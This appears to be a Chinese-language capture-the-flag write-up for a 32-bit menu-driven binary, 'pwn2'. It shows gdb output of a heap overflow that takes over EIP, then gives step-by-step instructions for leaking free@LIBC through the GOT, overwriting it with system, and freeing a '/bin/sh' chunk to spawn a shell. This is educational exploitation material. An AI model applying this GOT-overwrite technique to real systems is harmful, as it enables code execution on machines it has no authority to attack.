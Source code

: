 ```gdb
0x081a8380│+0x0010: 0x34333231  →  0x00000000
0x081a8384│+0x0014: 0x38373635
0x081a8388│+0x0018: 0x32313039  →  0x00000000
0x081a838c│+0x001c: 0x36353433  →  0x00000000
0x081a8390│+0x0020: 0x30393837  →  0x00000000  // 實現了覆蓋print地址
0x081a8394│+0x0024: 0x081a83a0  →  0x000a6262 ("bb"?)
0x081a8398│+0x0028: 0x00000002
0x081a839c│+0x002c: 0x00000011
0x081a83a0│+0x0030: 0x000a6262 ("bb"?)
gef➤  c // 多按幾次直至出現菜單操作
Continuing.
Welcome to yet another human resources management framework!
============================================================
1. Create a new person
2. Edit a person
3. Print information about a person
4. Delete a person
5. This framework sucks, get me out of here!
Enter your choice: 3

Printing a person...
Enter person's index (0-based): 1

Thread 1 "pwn2" received signal SIGSEGV, Segmentation fault.
...
0x30393837 in ?? ()
gef➤  p/x $eip
$1 = 0x30393837
```

如果沒有開啓NX和ASLR，在上面動態調試的基礎上，將p0的name轉換爲如下payload：pad("A"*16)+addr(0x081a8390+4)+shellcode就可以了，但是本體中開啓了NX，服務器也十有八九開啓了ASLR，那麼：
1. 爲了應對NX，我們需要用ROP或者其他方法來繞過。
1. 爲了應對ASLR，我們需要泄露一個服務器上的地址。

注意到前面delete功能中free了兩次，第一次是free(name)，如果name='/bin/sh'，並且將free函數的地址改成system，那麼就成功得到shell。
爲了實現這個目的，可以通過修改GOT來實現。
```bash
$ objdump -R pwn2 | grep free
08191028 R_386_JUMP_SLOT   free@GLIBC_2.0
```
free@GOT=0x08191028，該地址處的值在程序運行時會被修改爲free@LIBC，我們將這個地方修改爲system@LIBC就可以了。

由於服務器開啓ASLR，我們可以將free@LIBC泄露出來。泄露信息當然用print函數，上面的調試過程中我們是將0x081a8390地址處的print地址覆蓋爲任意值，同樣，我們也可以將後面0x081a8394處的內容覆蓋，該內容爲指向字符串bb的地址，我們將其覆蓋爲free@GOT=0x08191028，然後就可以用print查看該地址處的值（free@LIBC）了。

得到free@LIBC後，根據其和system@LIBC的固定偏移量，即可得到後者，然後繼續利用edit功能，修改該地址處的值爲system@LIBC。

攻擊過程：
1. 創建p0(1, 'a', 0), p1(1, 'b', 1), p2(8, '/bin/sh', 2)
1. edit p0，將`p1->name`覆蓋爲free@GOT。注意覆蓋`p1->name`的同時要保證不改變前面的print地址（固定0x080ebb10）
1. print p0，得到free@LIBC，利用libc中free和system的固定偏移量，得到system@LIBC
1. edit p1，將name修改爲system@LIBC
1. free p2，觸發system('/bin/sh')
